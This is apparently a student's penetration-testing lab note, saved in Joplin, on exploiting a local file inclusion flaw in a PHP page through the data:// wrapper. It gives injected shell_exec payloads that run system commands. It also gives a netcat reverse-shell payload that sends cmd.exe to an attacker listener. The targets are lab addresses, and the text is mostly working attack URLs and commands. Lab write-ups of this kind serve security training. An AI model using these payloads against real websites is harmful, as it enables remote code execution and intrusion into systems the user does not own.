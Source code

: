 9.4.4.10

# 9.4.4.10
## 9.4.4.10.1. Exploit the LFI vulnerability using a PHP wrapper.

Instead of poisoning a local file, we can use an alternative payload by way of using a data wrapper. The application should treat it the same as using a regular file and include it in the page. 

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("ipconfig") ?>`
![3e4e0ac65d2ad5d8536cf29a34550222.png](:/686f3addba3b4a18b9095699e4ecf866)

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`
![b6df8c1de3b7ac288961f2c307a1c258.png](:/96fc2c92effd4c4d9c47af2ce9842837)

`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("whoami") ?>`
![4202736274398c046734d7ad384df6a6.png](:/55bdedd59ab14c76ad2cf9d6d918b819)



## 9.4.4.10.2. Use a PHP wrapper to get a shell on your Windows 10 lab machine.
Start a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lvnp 5678               
listening on [any] 5678 ... 
```

Execute PHP code that opens a netcat client that sends cmd.exe upon connection
`192.168.214.10/menu.php?file=data:text/plain,<?php echo shell_exec("nc -nv 192.168.119.214 5678 -e cmd.exe") ?>`
![acb07ab85a511fadee0ff1f6e99acb1f.png](:/eb72bb5b0d6340f48232f3e23198d568)

Notice we have a shell
![a6f85a4ea83794f743efcbb696f0ae8d.png](:/872e976fbaf6479ab1f7f9364d1a12a2)







id: 5611cf854e7f43089348eb0783697239
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:39:08.515Z
updated_time: 2020-09-21T21:15:11.271Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:39:08.515Z
user_updated_time: 2020-09-21T21:15:11.271Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1